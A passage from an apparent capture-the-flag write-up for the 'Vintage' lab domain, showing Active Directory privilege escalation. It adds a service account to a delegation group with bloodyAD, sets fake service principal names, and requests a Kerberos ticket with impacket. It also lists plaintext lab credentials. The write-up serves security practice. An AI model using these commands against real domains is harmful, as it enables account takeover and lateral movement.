 ```sh
Set-ADUser -Identity svc_sql -Add @{servicePrincipalName="cifs/what_ever_name"}

Get-ADUser -Identity svc_sql -Properties ServicePrincipalNames


DistinguishedName     : CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
Enabled               : False
GivenName             :
Name                  : svc_sql
ObjectClass           : user
ObjectGUID            : 3fb41501-6742-4258-bfbe-602c3a8aa543
SamAccountName        : svc_sql
'ServicePrincipalNames : {cifs/what_ever_name}'
SID                   : S-1-5-21-4024337825-2033394866-2055507597-1134
Surname               :
UserPrincipalName     :
```



#### Creds
```sh
c.neri_adm : Uncr4ck4bl3P4ssW0rd0312
```

### Enumeration
![alt text](assets/image-5.png)

![alt text](assets/image-6.png)

---
### Privilege escalation
add C.NERL_ADM to DELEGATEDADMINS
```sh
python bloodyAD.py --host dc01.vintage.htb --dc-ip 10.10.11.45 -d "VINTAGE.HTB" -u c.neri_adm -p 'Uncr4ck4bl3P4ssW0rd0312' -k add groupMember "DELEGATEDADMINS" "SVC_SQL"

[+] SVC_SQL added to DELEGATEDADMINS
```
```sh
python bloodyAD.py --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k set object "SVC_SQL" servicePrincipalName  -v "cifs/fake" 

[+] SVC_SQLs servicePrincipalName has been updated
```


Now we can get the ticket for this SVC:
```sh
impacket-getTGT vintage.htb/svc_sql:Zer0the0ne -dc-ip dc01.vintage.htb

export KRB5CCNAME=svc_sql.ccache
```
